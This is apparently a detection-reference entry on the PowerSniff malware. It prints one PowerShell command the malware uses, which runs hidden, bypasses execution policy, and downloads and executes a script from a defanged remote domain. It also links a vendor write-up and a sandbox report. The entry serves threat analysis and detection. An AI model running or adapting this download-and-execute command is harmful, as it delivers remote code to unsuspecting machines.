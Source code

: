## PowerSniff


#### Commands
---

* Powershell.exe

1.
```
-ExecutionPolicy Bypass -WindowStyle Hidden -noprofile -noexit -c if ([IntPtr]::size -eq 4) {(new-object Net.WebClient).DownloadString('http://rabbitons[.]pw/cache') | iex } else {(new-object Net.WebClient).DownloadString('http://rabbitons[.]pw/css') | iex}
```


#### Regular Expressions
---

``

``

#### Resources
---

Technical write-ups:
* https://researchcenter.paloaltonetworks.com/2016/03/powersniff-malware-used-in-macro-based-attacks/

Sandbox reports:
* https://www.hybrid-analysis.com/sample/a8663becc17e34f85d828f53029ab110f92f635c3dfd94132e5ac87e2f0cdfc3?environmentId=4

Notes:



 
